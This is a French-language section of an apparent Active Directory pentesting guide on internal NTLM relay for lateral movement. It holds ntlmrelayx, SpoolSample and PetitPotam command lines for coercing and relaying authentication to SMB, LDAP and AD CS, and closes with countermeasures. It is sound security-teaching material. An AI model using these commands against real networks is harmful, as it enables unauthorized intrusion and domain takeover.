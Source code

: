 # VI.E. Relais NTLM (Interne)

Le relais NTLM, déjà abordé pour l'accès initial ([III.D Relais NTLM et Empoisonnement LLMNR/NBT-NS](../03-acces-initial/D-relais-ntlm-llmnr.md)), peut également être une technique de mouvement latéral très efficace une fois qu'un premier point d'ancrage est établi au sein du réseau.

Si un attaquant contrôle une machine sur le réseau, il peut tenter d'intercepter des authentifications NTLM d'autres machines/utilisateurs et les relayer vers des cibles pour exécuter des actions ou obtenir un accès.

## Scénarios de Relais NTLM Interne

1.  **Depuis une Machine Compromise vers d'Autres Serveurs/Postes :**
    *   L'attaquant, ayant un shell sur `MACHINE_A`, peut utiliser des outils comme `Responder` (en mode analyse seulement pour ne pas empoisonner) ou `Inveigh` pour écouter les diffusions LLMNR/NBT-NS ou les tentatives de connexion SMB/HTTP sur `MACHINE_A`.
    *   Si un utilisateur ou un service tente de s'authentifier auprès de `MACHINE_A` via NTLM (ex: accès à un partage inexistant, erreur de frappe), l'attaquant peut relayer cette authentification.

2.  **Forcer l'Authentification (Coercition) :**
    L'attaquant peut tenter de forcer des machines (en particulier des serveurs ou des contrôleurs de domaine) à s'authentifier auprès d'une machine qu'il contrôle (ou directement vers l'outil de relais).
    *   **Printer Bug (MS-RPRN) :** `SpoolSample.exe` (ou `printerbug.py` d'Impacket) peut forcer un serveur (même un DC) à s'authentifier auprès d'une machine arbitraire via le protocole MS-RPRN (Print System Remote Protocol).
        ```powershell
        # Sur la machine de l'attaquant (ou une machine qu'il contrôle pour le relais)
        # Lancer ntlmrelayx.py pour écouter et relayer
        sudo ntlmrelayx.py -tf <FICHIER_CIBLES_RELAIS> -smb2support (-i pour interactif, ou -c "commande")

        # Depuis une machine Windows où SpoolSample est uploadé
        SpoolSample.exe <IP_MACHINE_A_RELAIS_OU_ATTAQUANT> <IP_SERVEUR_A_FORCER_AUTH>
        ```
    *   **PetitPotam (MS-EFSRPC) :** Vulnérabilité dans le protocole Encrypting File System Remote Protocol (MS-EFSRPC) qui peut être utilisée pour forcer une machine (y compris les DCs) à s'authentifier auprès d'un autre serveur.
        ```bash
        # Lancer ntlmrelayx.py
        sudo ntlmrelayx.py -t ldaps://<IP_DC_CIBLE_DU_RELAIS_LDAP> --remove-mic --escalate-user <NOUVEL_ADMIN_DA>
        # Ou pour relayer vers SMB
        # sudo ntlmrelayx.py -tf targets_smb.txt -smb2support -i

        # Exécuter PetitPotam (depuis une machine Windows ou via des outils Python)
        # Exemple avec l'outil de @topotam
        PetitPotam.exe <IP_ATTAQUANT_OU_MACHINE_RELAIS> <IP_DC_A_FORCER_AUTH>
        ```
        **Attention :** Combiné avec un relais vers LDAP sur un DC non protégé (sans LDAP Signing/Channel Binding) et AD CS mal configuré (ESC8), PetitPotam peut mener à une compromission de domaine.
    *   **DFSCoerce (MS-DFSNM) :** Une autre technique de coercition d'authentification via le protocole Distributed File System Namespace Management.
    *   **ShadowCoerce (MS-FSRVP) :** Coercition via le protocole File Server Remote VSS.

## Outils Clés pour le Relais Interne

*   **Impacket `ntlmrelayx.py` :** L'outil principal pour effectuer le relais.
    *   Peut relayer vers SMB, HTTP, LDAP, MSSQL, etc.
    *   Actions possibles :
        *   Exécuter des commandes (SMB, HTTP).
        *   Dumper les secrets SAM locaux (SMB).
        *   Créer une session interactive (SMB).
        *   Interagir avec LDAP (ajouter des utilisateurs, modifier des groupes, configurer RBCD, DCSync si les droits sont suffisants).
        *   Relayer vers AD CS pour obtenir des certificats (ESC8).
*   **Responder :** Peut être utilisé pour l'empoisonnement LLMNR/NBT-NS afin de générer des authentifications à relayer, ou en mode analyse pour identifier les sources d'authentification.
*   **Inveigh (PowerShell) :** Similaire à Responder, mais en PowerShell. Utile si l'attaquant est sur une machine Windows.
*   **Metasploit :** Possède des modules pour le relais NTLM (ex: `auxiliary/server/capture/http_ntlm`, `exploit/windows/smb/smb_relay`).

## Cibles du Relais

*   **SMB :**
    *   Si la signature SMB est désactivée ou non requise sur la cible.
    *   Permet l'exécution de commandes, le dump SAM, etc.
*   **LDAP/LDAPS (sur les Contrôleurs de Domaine) :**
    *   Extrêmement puissant si le DC n'a pas LDAP Signing et/ou LDAP Channel Binding activé.
    *   Permet de modifier des objets AD, ajouter des membres à des groupes, configurer la délégation basée sur les ressources (RBCD) pour une prise de contrôle ultérieure du DC.
    *   Relayer l'authentification du compte machine d'un DC vers LDAP (via PetitPotam par exemple) peut permettre de configurer RBCD sur ce DC pour un autre compte machine contrôlé par l'attaquant.
*   **HTTP/HTTPS :**
    *   Si une application web utilise l'authentification NTLM intégrée.
    *   Peut permettre d'accéder à l'application avec les privilèges de l'utilisateur relayé.
*   **AD CS (via HTTP) :**
    *   Si les services web d'AD CS sont vulnérables (ex: ESC8 - relais vers l'endpoint de certificat basé sur Kerberos, mais l'authentification NTLM est acceptée).

## Contre-mesures et Considérations

*   **Signature SMB (SMB Signing) :** Activer sur tous les clients et serveurs.
*   **LDAP Signing & Channel Binding :** Activer sur les DCs.
*   **EPA (Extended Protection for Authentication) :** Activer sur les services web (IIS, Exchange, AD CS).
*   **Désactiver LLMNR/NBT-NS.**
*   **Segmentation réseau :** Limiter la portée des attaques de relais.
*   **Principe de moindre privilège :** Les comptes (en particulier les comptes machines) ne devraient pas avoir de droits excessifs.
*   **Surveillance :** Détecter les tentatives de coercition d'authentification et les activités de relais suspectes.
*   **Patching :** Appliquer les correctifs pour les vulnérabilités de coercition (ex: PetitPotam, Printer Bug).

Le relais NTLM interne, surtout avec les techniques de coercition, reste une menace significative dans de nombreux environnements AD. 